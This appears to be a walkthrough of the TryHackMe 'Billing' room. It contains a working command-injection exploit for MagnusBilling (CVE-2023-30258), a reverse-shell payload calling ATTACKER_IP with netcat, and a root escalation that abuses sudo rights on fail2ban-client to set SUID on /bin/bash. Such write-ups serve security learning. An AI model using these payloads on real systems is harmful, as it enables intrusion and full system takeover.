

> [!info]
> - [Billing](https://tryhackme.com/room/billing)
> - Difficulty: easy
> - Platform: web, linux
>
> Gain a shell, find the way and escalate your privileges!
> Note: Bruteforcing is out of scope for this room.
>
> Answer the questions below
> 1. What is user.txt?
> 2. What is root.txt?

In this room I practiced exploiting CVEs and privilege escalation. Vulnerabilities explored:

- Command injection
- Sudoers misconfiguration

 

## Information gathering

As usual, first step, running a port scan:

```bash
$ sudo nmap -sV -T4 -n MACHINE_IP 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 17:23 EST
Nmap scan report for MACHINE_IP
Host is up (0.098s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
3306/tcp open  mysql   MariaDB (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

It detected SSH, HTTP, and mysql services.

> [!note]
> I should have run it with `-p-` option, because I missed [open 5038 Asterisk port](https://jaxafed.github.io/posts/tryhackme-billing/).

I attempted to access mysql, but received an error "Host is not allowed to connect to this MariaDB server".

Web service is hosting a MagnusBilling service.



## User flag: getting reverse shell via command injection

Service seemed to me more complex than a simple bootstrapped CTF web site, so I searched for it and its known vulnerabilities.

There is a [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258) command injection vulnerability in MagnusSolution MagnusBilling 6.x and 7.x. I confirmed it with a time-based blind command injection:

```bash
curl 'http://MACHINE_IP/mbilling/lib/icepay/icepay.php?democ=iamhacked;sleep%2015;#'
```

Then I established a reverse shell:

```bash
curl 'http://MACHINE_IP/mbilling/lib/icepay/icepay.php?democ=iamhacked;nc%20-c%20bash%20ATTACKER_IP%209003;' 
```

And got a user key:

```bash
asterisk@Billing$ cat /home/magnus/user.txt                   
THM{REDACTED}
```


## Root flag: privilege escalation with fail2ban-client

To get the next flag I needed to have a root access. I did run [lienPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), but also checked certain things manually, including `sudo -l`. It showed that current user can run `fail2ban-client`.

```bash
asterisk@Billing$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

[Using this instruction](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/) I added a new ban action to set SUID bit on `/bin/bash`, triggered it, got access to root shell, and got and the second flag:

```bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@Billing$ sudo /usr/bin/fail2ban-client get asterisk-iptables  actions
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables addaction evil
evil
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.5 
1
asterisk@Billing$ /bin/bash -p
bash-5.1# cat /root/root.txt
THM{REDACTED}
```
